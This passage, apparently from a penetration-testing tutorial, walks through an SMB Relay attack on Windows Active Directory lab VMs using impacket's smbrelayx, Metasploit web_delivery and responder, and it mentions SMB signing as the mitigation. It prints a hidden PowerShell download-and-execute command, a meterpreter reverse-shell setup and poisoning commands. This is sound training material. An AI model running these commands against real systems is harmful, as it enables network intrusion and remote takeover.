 System administrators often use automated scripts to perform maintenance tasks on the network at regularly scheduled intervals. These scripts often use service accounts that have administrative privileges, and use NTLM for remote authentication. This makes them prime candidates for both SMB Relay attacks and the poisoning attacks that we learned about in the last section. Ironically, many types of security related hardware and software authenticate this way as well, including antivirus programs and agentless network access control mechanisms.

This attack can be mitigated using a technique known as SMB signing, in which packets are digitally signed to confirm their authenticity and point of origin [16]. Most modern Windows operating systems are capable of using SMB signing, although only Domain Controllers have it enabled by default [16].

The impacket toolkit contains an excellent script for performing this type of attack. It’s reliable, flexible, and best of all supports attacks against NTLMv2.

Let’s perform a simple SMB Relay attack using impacket’s smbrelayx script. Before we begin, boot up your Kali VM, Windows DC VM, and your Windows AD Victim VM.

On your Windows DC VM, type the following command in your PowerShell prompt to obtain its IP address.

	ipconfig

Do the same on your Windows AD Victim VM to obtain its IP address. Once you have the IP addresses of both the Windows AD Victim and Windows DC VMs, open a terminal on your Kali VM and run ifconfig to obtain your IP address.

	ifconfig

On your Kali VM, change directories into /opt/impacket/examples and use the following command to start the smbrelayx script. In the command below, make sure you change the IP address to the right of the -h flag to the IP address of your Windows AD Victim virtual machine.  Similarly, change the second IP address to the IP address of your Kali virtual machine. Notice how we pass a Powershell command to run on the targeted machine using the -c flag. The Powershell command bypasses the Windows AD Victim VM’s execution policies and launches a reverse shell downloaded from your Kali virtual machine.

	python smbrelayx.py -h 172.16.15.189 -c "powershell -nop -exec bypass -w hidden -c IEX (New-Object Net.WebClient).DownloadString('http://172.16.15.186:8080')"

Once the payload has been generated, use the following commands within metasploit to launch a server from which to download the reverse shell. As before, change the IP address shown below to the IP address of your Kali virtual machine.

	msf > use exploit/multi/script/web\_delivery
	msf (web\_delivery) > set payload windows/meterpreter/reverse\_tcp
	msf (web\_delivery) > set TARGET 2
	msf (web\_delivery) > set LHOST 172.16.15.186
	msf (web\_delivery) > set URIPATH /
	msf (web\_delivery) > exploit

The traditional way to perform this attack is to establish a man-in-the-middle with which to intercept an NTLM exchange. However, we can also perform an SMB Relay attack using the LLMNR/NBT-NS poisoning techniques we learned in the last section. To do this, we simply launch responder on our Kali machine as we did before.

	responder -I eth0 -wrf
